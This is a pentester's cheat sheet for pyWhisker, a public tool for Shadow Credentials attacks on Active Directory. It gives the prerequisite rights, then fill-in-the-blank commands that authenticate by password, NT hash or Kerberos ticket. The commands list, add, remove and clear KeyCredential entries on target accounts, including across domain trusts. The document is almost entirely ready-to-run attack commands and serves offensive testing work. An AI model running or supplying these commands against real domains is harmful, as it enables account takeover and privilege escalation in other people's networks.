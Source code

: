 # pyWhisker

% dacl, ShadowCredentials, msDs-KeyCredentialLink, https://github.com/ShutdownRepo/pywhisker
#plateform/linux #target/remote #cat/ATTACK/AD/DACL-ABUSE/ShadowCredentials
 


## pyWhisker - Notes
```
To install add pycryptodome to requirements.txt
plus
pip install pyOpenSSL==24.0.0
```

## pyWhisker - Attack requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
DC must have its own certificate and keys (RB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP)
```

## auth - cred
```bash
-u <user> -p <password> 
```

## auth - pth
```bash
-u <user> -H <nt_hash> 
```

## auth - ptt
```bash
-u <user> -k -no-pass 
```

## list all current KeyCredentials ID and creation time (cred)
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -p <password> --target <target_user> --action "list"
```


## list all current KeyCredentials ID and creation time (pth)
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "list"
```

## list all current KeyCredentials ID and creation time (ptt)
```
pywhisker.py -k -no-pass --dc-ip <dc_ip> -d <domain_fqdn> -u <user> --target <target_user> --action "list"
```

## get info on KeyCredential (pth)
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## remove KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE/ShadowCredentials
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## clear KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE/ShadowCredentials
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## add KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE/ShadowCredentials
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```


## cross-domain - list all current KeyCredentials ID and creation time (cred) (TRUST)
#cat/ATTACK/AD/DACL-ABUSE/ShadowCredentials
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <dst_domain_fqdn> -d <domain_fqdn> -u <user> -p <password> --target <target_user> --action "list"
```


## cross-domain - list all current KeyCredentials ID and creation time (pth)
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <dst_domain_fqdn> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "list"
```


## cross-domain - get info on KeyCredential (pth)
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <dst_domain_fqdn> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## cross-domain - remove KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <dst_domain_fqdn> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## cross-domain - clear KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <dst_domain_fqdn> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## cross-domain - add KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <dst_domain_fqdn> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```

